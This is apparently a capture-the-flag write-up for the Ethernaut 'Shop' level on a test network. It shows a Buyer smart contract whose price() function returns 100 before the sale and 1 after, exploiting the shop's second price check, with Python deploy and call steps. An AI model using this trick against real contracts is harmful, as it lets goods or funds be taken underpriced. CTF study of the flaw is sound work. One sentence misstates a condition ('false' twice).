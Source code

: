 # Shop

## Objectives

Сan you get the item from the shop for less than the price asked?

## Solution

It is possible to return different values based on the state variable `isSold`. After the check passes where `_buyer.price() >= price && !isSold` returns true, we can internally change our contract so that the value that `price()` returns changes based on `isSold`.

All we have to do is make sure the function `price()` returns 100 when `isSold` is false and a value under 100 when `isSold` is false.

## How I did it

1. Code and deploy a Buyer contract (at: `0xB9dcacbc393D15fEa292705d66c1549035CcB3ee`) where I define the `price()` function as follows:

```js
function price() public view returns (uint256) {
    if (shopContract.isSold()) {
        return 1;
    } else {
        return 100;
    }
}
```

If `isSold` is true, the price gets overwritten by a 1, however, in the if statement, we pass the check (requiring `price()` to return 100) since `isSold` is still false.

In python:

```python
buyer = Buyer.deploy(shop.address, _from)
```

2. Call the buy function in the Shop contract, which the Shop contract expects to see coming from another contract (in this case my Buyer contract).

```python
buyer.shop(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x2bcb495224d8fbf2ab49a0750336ff0ec2b9cb07e824022381655e51e589335b

3. Confirm that the price < 100

```python
price_assertion = shop.price() < 100
print(f"The selling price is below 100: {price_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xae682a54188a7c3de2a542e0a5699bc39a908dff1c14e8cfaa9039e593413331
